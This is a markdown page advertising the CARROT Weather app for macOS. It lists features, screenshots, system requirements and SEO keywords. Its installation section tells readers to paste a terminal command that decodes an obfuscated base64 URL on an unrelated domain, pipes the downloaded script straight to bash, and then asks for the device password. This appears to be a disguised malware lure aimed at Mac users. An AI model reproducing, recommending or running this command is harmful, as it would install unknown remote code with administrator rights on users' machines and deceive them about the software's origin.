 # 🌤️ CARROT Weather for Mac — Forecasts With Personality & Precision

📌 About CARROT Weather  
CARROT Weather is a feature-rich macOS weather app that combines serious meteorological data with a hilarious AI twist.  
Powered by multiple weather providers, it offers hyperlocal forecasts, radar maps, and long-term outlooks — all wrapped in a fully customizable interface. You can personalize layouts, choose forecast sources, and toggle between sarcastic commentary or serious mode depending on your mood.  
CARROT Weather is fully native, private by design, and optimized for Apple Silicon. No background tracking or hidden analytics — just accurate, fast forecasts with a bit of attitude (or not, if you prefer it polite).

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.meetcarrot.com/weather/mac/img/rain-screenshots.png)  
- ![](https://support.meetcarrot.com/weather/mac/img/faq-ss-6.png)  

## 🎯 Key Features  
⚡️ Hyperlocal Forecasts: Choose from multiple weather data sources.  
🔒 Private by Design: No location tracking or hidden analytics.  
⚙️ Fully Customizable: Rearrange layout, change providers, and tweak voice tone.  
🚀 Lightning Fast: Native performance with real-time radar and widgets.  
🎨 macOS Integration: Supports menu bar, notifications, and widgets.  
📊 Long-Term Data: Hourly, daily, and extended outlooks with detailed graphs.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 150 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`carrot weather mac` · `mac weather app` · `hyperlocal forecast macos` · `funny weather widget mac` · `mac radar maps` · `carrot ai weather` · `weather notifications mac` · `mac daily forecast` · `mac menu bar weather` · `macos customizable forecast` · `apple silicon weather app` · `mac snarky weather assistant` · `private weather app mac` · `mac severe weather alerts` · `mac ai-powered forecast`
